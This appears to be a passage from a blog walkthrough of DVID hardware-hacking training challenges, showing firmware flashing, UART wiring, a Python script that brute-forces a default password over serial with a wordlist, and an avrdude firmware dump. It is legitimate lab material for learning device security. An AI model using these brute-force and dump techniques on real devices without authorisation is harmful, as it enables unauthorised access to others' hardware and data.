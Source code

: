 Once again we push the firmware : `sudo avrdude -c usbasp -p m328p -U flash:w:defaultPassword.ino.arduino_standard.hex`.

Since the challenge is to find a default password, we will connect to the debug interface (UART) of the DVID and try to interact with it. First we need to wire it correctly, remember to pair RX with TX and TX with RX, and do NOT plug the USB if you wire the 5v pin ;)

{% highlight bash%}
VCC <---> VCC
RX  <---> TX
TX  <---> RX
GND <---> GND
{% endhighlight %}

Using the code from the last challenge we can write a simple script to interact with the device /dev/ttyUSB0. We will iterate over the john wordlist to bruteforce the service until it responds with "ok" instead of "ko".

{% highlight python%}
import serial, time
port = "/dev/ttyUSB0"
baud = 9600
s = serial.Serial(port)
s.baudrate = baud

with open('/usr/share/john/password.lst', 'r') as f:
    lines = f.readlines()

    for pwd in lines:
        if not "#" in pwd:
            res = s.write(pwd.strip())
            print("Pwd: {}".format(pwd.strip()))
            print("Sent {} bytes".format(res))
            print("Result: {}".format(s.readline()))
            time.sleep(3)
{% endhighlight %}

And we got it ! Obviously the password is hidden, real one is available [here](https://www.youtube.com/watch?v=SCaAetNzXIc) :D

![DefaultPasswd]({{ site.baseurl }}/images/DVID/defaultpasswd.jpg "DefaultPasswd"){: .center-image }


### Firmware - Hardcoded Password 

> A confidential message is stored on the firmware but protected by a password.

We push the firmware with  `sudo avrdude -c usbasp -p m328p -U flash:w:hardcodedPassword.ino.arduino_standard.hex`.

Now we will dump the previously sent firmware, we could just analyse the **hardcodedPassword.ino.arduino_standard.hex** file but it is not realistic.

{% highlight python%}
$ sudo avrdude -c usbasp -p m328p -F -U flash:r:dump.hex:i
avrdude: warning: cannot set sck period. please check for usbasp firmware update.
avrdude: AVR device initialized and ready to accept instructions
Reading | ################################################## | 100% 0.00s

avrdude: Device signature = 0x1e950f (probably m328p)
avrdude: reading flash memory:
Reading | ################################################## | 100% 17.15s

avrdude: writing output file "dump.hex"
avrdude: safemode: Fuses OK (E:FF, H:D9, L:E2)
avrdude done.  Thank you.
{% endhighlight %}
